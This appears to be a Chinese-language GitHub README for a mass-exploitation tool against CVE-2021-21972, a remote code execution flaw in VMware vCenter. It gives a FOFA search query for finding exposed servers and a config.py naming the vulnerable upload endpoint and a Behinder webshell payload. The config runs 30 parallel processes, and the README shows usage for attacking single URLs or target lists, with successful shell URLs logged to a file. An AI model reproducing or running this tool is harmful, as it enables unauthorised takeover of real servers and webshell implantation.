

## CVE-2021-21972 Exploit ##
参考链接:  
[CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞分析](http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/)  
[CVE-2021-21972-NS-Sp4ce](https://github.com/NS-Sp4ce)

tips：  
为日后像什么补丁修复存在漏洞留下可扩展性配置，至于6.7和7.0的exp过程还没有见到详细的，有的话后续会补上  
getshell成功的url会保存在shellurl.txt

shell:  
冰蝎3.0的马子，对照Sp4ce项目的Linux.tar

搜索语法：
```text
fofa:body="VMware vSphere"
```

config.py
```python
PAYLOAD={"6.5":{"exppath":"payload/6.5.tar","shellurl":"/ui/resources/shell.jsp"}} #对应版本和exp、shell路径配置
BUGURL=["/ui/vropspluginui/rest/services/uploadova"] #漏洞url
BUGCODE=[405] #检测状态码
PROCESSNUMBER=30 #多进程数量
UPLOADSUCESS=["SUCCESS"] #上传成功判断
TIMEOUT=5 #超时
HEADER={"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36",
        "Cache-Control":"no-cache",
        "Pragma":"no-cache"}
```
Example:
```text
Usage: exp.py [options]

Options:
  -h, --help  show this help message and exit
  -u URL      remote url
  -v VERSION  vCenter version,version exp list:6.5
  -f FILE     file
python exp.py -u <url> -v <version>
python exp.py -f <file> -v <version>
```





